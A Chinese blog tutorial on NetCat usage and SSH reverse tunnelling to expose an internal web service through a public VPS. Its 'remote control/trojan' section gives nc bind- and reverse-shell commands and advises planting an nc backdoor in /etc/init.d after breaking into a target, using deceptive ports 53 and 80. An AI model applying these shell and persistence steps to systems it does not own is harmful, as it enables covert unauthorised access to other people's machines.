 ```yaml
---
layout: post
title:  "网络安全－SSH和NetCat内网穿透"
categories: 网络安全
tags: 网络安全 SSH NetCat
author: xueyp
description: 使用SSH和NetCat实现内网穿透
---
```


SSH&NetCat
============

　　SSH 为 Secure Shell 的缩写，由 IETF 的网络小组（Network Working Group）所制定；SSH 为建立在应用层基础上的安全协议。SSH 是目前较可靠，专为远程登录会话和其他网络服务提供安全性的协议。利用 SSH 协议可以有效防止远程管理过程中的信息泄露问题。SSH最初是UNIX系统上的一个程序，后来又迅速扩展到其他操作平台。SSH在正确使用时可弥补网络中的漏洞。SSH客户端适用于多种平台。几乎所有UNIX平台—包括HP-UX、Linux、AIX、Solaris、Digital UNIX、Irix，以及其他平台，都可运行SSH。

　　通过使用SSH，可以把所有传输的数据进行加密，这样"中间人"这种攻击方式就不可能实现了，而且也能够防止DNS欺骗和IP欺骗。使用SSH，还有一个额外的好处就是传输的数据是经过压缩的，所以可以加快传输的速度。SSH有很多功能，它既可以代替Telnet，又可以为FTP、PoP、甚至为PPP提供一个安全的"通道"。

　　NetCat是一个非常简单的Unix工具，可以读、写TCP或UDP网络连接(network connection)。它被设计成一个可靠的后端(back-end) 工具，通过与其他工具结合和重定向，可以在脚本中以多种方式使用它。同时，它又是一个功能丰富的网络调试和开发工具，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能。

　　NetCat还可以当服务器使用，监听任意指定端口的连接请求(inbound connection)，并可做同样的读写操作。

　　总的来说，NC所做的就是在两台电脑之间建立链接并返回两个数据流，在这之后所能做的事就完全由自己做主了。例如建立一个服务器，传输文件，与朋友聊天，传输流媒体或者用它作为其它协议的独立客户端。

- **语法**
```
nc/netcat(选项)(参数)
    选项
        -g<网关>：设置路由器跃程通信网关，最多设置8个；
        -G<指向器数目>：设置来源路由指向器，其数值为4的倍数；
        -h：在线帮助；
        -i<延迟秒数>：设置时间间隔，以便传送信息及扫描通信端口；
        -l：使用监听模式，监控传入的资料；
        -n：直接使用ip地址，而不通过域名服务器；
        -o<输出文件>：指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存；
        -p<通信端口>：设置本地主机使用的通信端口；
        -r：指定源端口和目的端口都进行随机的选择；
        -s<来源位址>：设置本地主机送出数据包的IP地址；
        -u：使用UDP传输协议；
        -v：显示指令执行过程；
        -w<超时秒数>：设置等待连线的时间；
        -z：使用0输入/输出模式，只在扫描通信端口时使用。
```

- **为什么不用telnet来连接任意的端口?**
 
　　Telnet有“标准输入文件结束符(standard input EOF)”问题，所以需要在脚本中延迟计算以便等待网络输出结束。这就是netcat持续运行直到连接被关闭的主要原因。Telnet也不能传输任意的二进制数据，因为一些特定的字符会被解释为Telnet的参数而被从数据流中去除。Telnet还将它的一些诊断信息显示到标准输出上，而NC会将这信息与它的输出分开以不改变真实数据的传输，除非你要求它这么做。当然了，Telnet也不能监听端口，也不能使用UDP。NC没有这些限制，比Telnet更小巧和快捷，而且还有一些其它的功能。

命令示例
============

　　假设有Ａ和Ｂ两台电脑ｉｐ可达。

1 **传输文件**

　　A作为接受端打开端口：
```
$ nc -lp 3333 > 1.mp4  
将侦听到的3333端口的信息输出到1.mp4文件中
```

　　B端为发送端:
```
$ nc -nv 1.1.1.1 3333 < 1.mp4 -q 1  将1.mp4文件的内容宿儒到目标ip的3333端口，传递完成一秒后断开连接
```

　　或者A作为发送端打开端口:
```
$ nc -q 1 -lp 3333 <a.mp4  -q 1 将文件放在3333端口下，等着别人来下载,文件传输完成后1秒断开连接
```
　　B作为接收端:
```
$ nc -nv 1.1.1.1 333 >a.mp4
```

2 **传输目录**

　　nc本身并不支持目录传送，而是必须结合其它的命令来完成。通常先将目录进行打包，让后将其通过管道灌到nc的一个端口，让后在接收端通过nc去连接服务器已经打开的侦听端口，当接收端得到打包的文件后在通过tar去解包重新还原出目录。
```
$ tar -cvf - filename/ | nc -lp 333 -q 1     
先打包目录，前一个tar打包命令的结果通过管道成为nc命令的输入，即将tar过的文件传到333端口里面，等人家来连接 

$ nc 192.168.14.20 333 | tar -xvf -   
将接收到tar文件重定向后进行解包
```

3 **远程控制/木马**

　　nc远程控制可以实现双向的远程控制，服务器端可以是控制端，也可以是被控制端。

- **正向**:

A:服务端
```
$nc -lp 333 -c bash  
通过nc建立的连接将bash传递给对方；符合我们通常的一个使用习惯吧，又服务器侦听一个端口，通过客户端来连接这个端口时，服务器端把自己的bash shell传递给客户端！
```
B:客户端
```
$nc -nv 192.168.14.23 333   
```

　　当渗透进入对方操作系统后，在对方/etc/init.d目录下添加nc执行脚本添加此后门，以后可以随时连接此后门。但由于对方防火墙配置通常无法连接。

- **反向**:

A:服务器端，负者侦听端口,但不传递shell:
```
$: nc -lp 333
```
B：客户端
```
$: nc -nv 192.168.14.23 33 -c bash  通过nc连接到服务器端并将shell传递给服务器端成为被控制端
```
　　在进入对方系统后，在本机侦听一个端口，然后在对方系统执行启动脚本将shell传送给自己!,通常使用53，80等有欺骗性的端口。在windows下也可用，只需要将bash换成cmd就ok。

4 **其他**

　　文本聊天／硬盘copy／流媒体服务／端口扫描等。

内网穿透
============

**环境如下**：

    内网机 A 10.0.11.5 运行web服务在80

    VPS公网 B 21.237.x.x ssh端口 12580,有root权限

    访问内网服务使用自己的笔记本，可以连接公网 C, 目标连接内网的 redis

1 B->A 建立反向ssh隧道，在内网机A 上操作
```
ssh -fN -R 8088:localhost:80 root@45.xx.xx.xx -p 12580
```

　　这个命令的含义是，通过 SSH 把本地的80端口映射到远程vps的 8088 端口（通过12580端口连接），执行命令需要输入密码（或者使用key做免密码登陆)

2 执行上述命令之后，在 vps 上查看
```
# netstat -ntpl |grep 8088
tcp        0      0 127.0.0.1:8088          0.0.0.0:*               LISTEN      12580/sshd: root
```
 
　　访问ｖｐｓ的8088即访问内网机Ａ的80端口，但是8088 端口绑定的是 127.0.0.1 端口，无法被外部访问，需要再来个端口映射，把绑定到 0.0.0.0 的某个端口映射到 8088 端口。
```
nc -l -p 8001 -c "nc 127.0.0.1 8088" -vv
```
　　这样就把本机的8088端口映射到了8001端口，ｖｐｓ监听８００１端口，客户端通过连接8001端口即可实现访问内网机Ａ的80端口。

3 在本地的电脑浏览器中输入http://221.237.x.x:8001 即可成功访问Ａ网站。



版权声明：本文为博主原创文章，转载请注明出处。 [旭日酒馆](https://xueyp.github.io/)
